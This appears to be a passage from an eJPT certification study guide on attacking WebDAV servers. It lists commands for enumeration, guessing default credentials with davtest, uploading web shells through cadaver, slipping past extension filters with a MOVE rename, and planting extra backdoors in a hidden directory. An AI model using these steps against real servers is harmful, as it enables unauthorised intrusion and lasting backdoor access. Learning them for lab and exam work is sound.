 ### Key eJPT Commands to Master
```bash
# Complete workflow
nmap --script http-enum -p 80 target
davtest -auth user:pass -url http://target/webdav  
cadaver http://target/webdav
# Web shell commands: whoami, dir, type filename.txt
```

---

## ⚠️ Common Issues & Advanced Techniques

### Issue 1: File Extension Filtering
```bash
# Problem: .asp files blocked
# Solution: Try alternative extensions
# Upload as .txt, then use MOVE method to rename
put shell.txt
move shell.txt shell.asp
```

### Issue 2: Authentication Challenges
```bash
# Problem: Unknown credentials
# Try common credentials
davtest -auth admin:admin -url http://target/webdav
davtest -auth administrator:password -url http://target/webdav
davtest -auth guest: -url http://target/webdav
```

### Issue 3: Command Execution Limitations
```bash
# Problem: Limited command execution
# Use URL encoding for special characters
# C:\ = C%3A%5C
# Spaces = +
# Use PowerShell for advanced commands
```

### Issue 4: Persistent Access
```bash
# Upload multiple backdoors
put shell1.asp
put shell2.txt
put config.aspx
# Create hidden directories
mkdir .hidden
cd .hidden
put backup_shell.asp
```

---